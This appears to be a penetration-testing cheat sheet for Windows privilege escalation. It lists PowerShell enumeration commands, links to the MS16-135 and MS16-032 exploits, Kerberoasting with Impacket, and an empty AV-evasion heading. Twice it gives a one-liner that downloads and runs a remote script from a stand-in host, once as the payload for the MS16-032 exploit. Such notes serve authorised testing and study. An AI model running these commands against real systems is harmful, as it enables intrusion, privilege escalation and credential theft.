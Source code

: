 - JAWS (Just Another Windows (Enum) Script)
	- https://github.com/411Hall/JAWS
	- https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1

### PowerShell

- view processes: `tasklist`

- direct execute script from internet: `IEX(New-Object Net.WebClient).downloadString('http://example.com/blah.ps1')`

- download file (powershell 2):
```
$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("https://www.example.com/file","C:\path\file")
```

- download file (powershell 3+): `Invoke-WebRequest -Uri $url -OutFile $output`

- execute the thing ???: `Invoke-AllChecks`

- check if system is 64bit: `[environment]::Is64BitOperatingSystem`

- check if current process is 64bit: `[environment]::Is64BitProcess`

- 64bit powershell: `c:\Windows\SysNative\WindowsPowerShell\v1.0\Powershell.exe`

- get my privs: `whoami /all`

- get autologon info: `Get-RegistryAutoLogin`

- get basic system info: `systeminfo`

## Exploits

- MS16-135
	- https://github.com/FuzzySecurity/PSKernel-Primitives/blob/master/Sample-Exploits/MS16-135/MS16-135.ps1

- MS16-032
	- https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1
	- useage: Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).downloadString('http://example.com/blah.ps1')"

## Kerberoasting

- https://www.blackhillsinfosec.com/a-toast-to-kerberoast/
- Essentially, when a domain account is configured to run a service in the environment, such as MS SQL, a Service Principal Name (SPN) is used in the domain to associate the service with a login account. When a user wishes to use the specific resource they receive a Kerberos ticket signed with NTLM hash of the account that is running the service.
- Impacket has a tool: GetUserSPNs.py
- GetUserSPNs.py -request -dc-ip IP DOMAIN/USER:PASSWORD`

## AV evasion
